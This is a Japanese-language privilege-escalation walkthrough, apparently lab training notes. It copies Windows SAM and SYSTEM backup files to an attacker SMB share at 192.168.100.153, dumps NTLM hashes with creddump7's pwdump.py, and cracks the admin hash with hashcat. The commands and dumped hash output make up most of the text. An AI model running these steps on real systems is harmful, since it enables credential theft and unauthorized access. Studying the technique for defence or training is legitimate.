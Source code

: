 Windowsは、セキュリティアカウントマネージャ（SAM）にパスワードのハッシュを保存します。 ハッシュは、SYSTEMというファイルにあるキーで暗号化されています。 SAMとSYSTEMファイルを読む能力があれば、ハッシュを抽出することが可能です。
### SAM/SYSTEM Locations
SAMファイルとSYSTEMファイルは、C: \Windows\System32のconfigディレクトリに配置されています。   
Windowsの起動中は、ファイルがロックされます。   
C:\Windows\RepairまたはC:\Windows\System32\config\RegBackディレクトリにファイルのバックアップが存在する可能性があり ます。
# Privilege Escalation
1. SAMファイルやSYSTEMファイルのバックアップは、C:\Windows\Repairにあり、弊社ユーザーでも読むことができます。
2. ファイルをKaliにコピーして戻す。
```
> copy C:\Windows\Repair\SAM \\192.168.100.153\tools\
> copy C:\Windows\Repair\SYSTEM \\192.168.100.153\tools\
```
3. 最新版のcreddumpスイートをダウンロードします。
```
# git clone https://github.com/Neohapsis/creddump7.git
```
4. SAMとSYSTEMファイルに対してpwdumpツールを実行し、ハッシュを抽出します。
```
# /usr/share/creddump7/pwdump.py SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f27c0c12a5c94e851d73b4ce3a77d149:::
IEUser:1000:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
sshd:1002:aad3b435b51404eeaad3b435b51404ee:475a7dd05810c001c892853b88ba03a9:::
user:1003:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
5. hashcatを使用して管理者ユーザーのハッシュをクラックします。※passwordのhashは2個目のhash
```
# hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```
